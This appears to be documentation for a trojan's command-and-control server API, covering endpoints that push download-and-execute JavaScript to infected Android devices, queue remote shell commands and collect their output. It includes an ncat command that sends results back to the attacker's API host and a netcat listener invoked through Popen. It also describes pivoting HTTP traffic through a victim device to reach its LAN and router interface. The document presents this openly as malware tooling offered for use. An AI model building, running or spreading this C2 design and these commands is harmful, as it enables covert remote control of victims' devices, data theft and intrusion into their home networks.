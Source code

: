 #### Endpoints

> :warning: The response of the API may differ depending on the platform of the device from which the trojan operate. the following part explores mainly the case of **Android**, because it's the most sophisticated due to the OS's restrictions.



+ __[GET]__ /checkupdate.js

When the client sends its first request to the endpoint `/checkupdate.js`, the server create a `genShell`'s object, which sets a unique local port for that device `self.lport = self.setPort()` and a thread id `self.threaduid = random.randint` in addition to other attributes. Then returns the appropriate JavaScript code (depending on the CPU/ABI) that will contain instructions to download, chmod and execute (main thread, or poolexec) some resources. As for the following requests it returns a JS code that will execute the pending tasks if there are any.

`runCMD` is a method of `genShell` that write the shell script we want the trojan to run into a file inside `/assets` to be downloaded later by the client, then uses netcat to listen for the response and pipe it into a file inside `/threads`

**Example**: Let say you want to use the target as a HTTP proxy, the API formulate the request as the following cmd:

```shell
echo -e "GET / HTTP/1.1\r\nHost: 192.168.1.1\r\nConnection: close\r\n\r\n" | {abspath_toolbox/ncat} {API_HOST_IP} {lport} -w 10;\r\n
```
then save it into `assets/runsh_{uid_task}.sh`, then depending whether the request came from StealthMode/BatteryBypass or not, `/checkupdate.js` gets the trojan to download the shell file and run it.
	
```python
>>> Popen("exec $(nc -l 0.0.0.0 -p {lport} -dN > {task_filename})" shell=True, close_fds=True, ...)
```


+ __[GET]__ /addtask

Using the appropriate token the admin can get a device to run a command via this endpoint, the server will describe this command as __pending__ which will impact the next response of `/checkupdate.js` to that device. Then it'll return a random generated id for this task.


+ __[GET]__ /pingtask

The combination of the task id generated by `/addtask` and the aforementioned thread id `threaduid` makes the name of the file inside `/threads` where the output of the command is saved. Once this endpoint is requested it checks whether `/threads/{threaduid}x{taskid}` exists, if so the server returns the content of the file otherwise it return 0.


+ __[GET]__ /runproxy & /pushproxy

This will run `reverse_http.py` in a separate screen, then returns a IP:PORT (HTTP proxy), that will allow the admin to pivote HTTP requests through the trojan device. For instance, if the Admin sets these info in the browser settings and try to open router port (Ex: `http://192.16...`), the browser will open the router web interface as if the admin was a part the target LAN.



